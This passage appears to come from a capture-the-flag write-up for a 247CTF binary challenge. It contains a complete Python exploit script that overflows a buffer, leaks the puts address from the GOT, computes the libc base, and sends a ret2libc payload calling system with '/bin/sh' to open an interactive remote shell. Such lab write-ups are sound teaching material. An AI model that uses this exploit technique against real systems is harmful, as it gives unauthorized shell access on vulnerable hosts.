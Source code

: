```
[function VA] = [libc base address] + [function RVA]
```

Be aware that the second padding of the payload may change, so you need to recalculate it again, but we’re lucky enough and this time the padding is the same. With all of this in mind, here is what our final script would look like:

```python
import socket
import struct

hostname = 'ad520e503a0ec4e0.247ctf.com'
port = 50341

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    # TCP socket
conn.connect((hostname, port))

print('[*] Connected to {}:{}'.format(hostname, port))

conn.recv(1024)

payload = b'A' * 0x2c
payload += struct.pack('<I', 0x08048390)    # puts@plt
payload += struct.pack('<I', 0x0804853d)    # main
payload += struct.pack('<I', 0x0804a018)    # puts@got
conn.sendall(b'%b\r\n' % payload)
print('[*] Payload sent: {}B'.format(len(payload)))

data = conn.recv(1024).split(b'\n')[1]
puts_leak = struct.unpack('<I', data[:4])[0]
print('[*] puts leaked address: {:#x}'.format(puts_leak))

libc_base = puts_leak - 0x67360
print('[*] libc base address: {:#x}'.format(libc_base))

libc_system = libc_base + 0x3cd10
libc_exit = libc_base + 0x2ff70
libc_shell = libc_base + 0x17b8cf

payload = b'A' * 0x2c
payload += struct.pack('<I', libc_system)
payload += struct.pack('<I', libc_exit)
payload += struct.pack('<I', libc_shell)
conn.sendall(b'%b\r\n' % payload)
print('[*] Payload sent: {}B'.format(len(payload)))
conn.recv(1024)

print('[*] Interactive shell\n')

try:
    command = input('$ ')

    while command != 'exit':
        conn.sendall('{}\n'.format(command).encode('utf-8'))
        print(conn.recv(1024).decode('utf-8'), end='')
        command = input('$ ')
except (EOFError, KeyboardInterrupt):
    pass

conn.close()
```
